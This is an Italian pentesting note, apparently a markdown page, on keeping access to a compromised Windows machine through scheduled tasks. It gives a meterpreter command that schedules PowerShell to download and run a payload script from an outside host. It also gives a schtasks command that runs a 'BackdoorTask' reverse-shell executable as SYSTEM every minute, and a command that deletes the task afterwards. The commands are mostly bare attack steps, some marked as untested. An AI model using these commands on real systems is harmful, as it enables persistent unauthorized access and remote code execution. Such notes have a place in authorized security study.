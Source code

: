 Esempio nella sessione meterpreter (da testare) sfruttando un payload di Powershell

```bash
meterpreter > run schtaskabuse -t "<NomeDelTask>" -c "powershell -Command 'IEX (New-Object Net.WebClient).DownloadString(\"http://<IP>/payload.ps1\")'"
```

Creare un task manualmente con *schtasks* sulla macchina compromessa (da testare)

*Reverse Shell ogni minuto*

```bash
schtasks /create /sc MINUTE /mo 1 /tn "BackdoorTask" /tr "C:\Windows\System32\cmd.exe /c C:\backdoor.exe" /ru SYSTEM

```

*Eliminazione del task quando non serve più*

```bash
schtasks /delete /tn "BackdoorTask" /f
```

Differenze fra i moduli Metasploit citati

![image](https://github.com/user-attachments/assets/c85c83e1-dee3-4ffd-9489-a611e4a311e1)

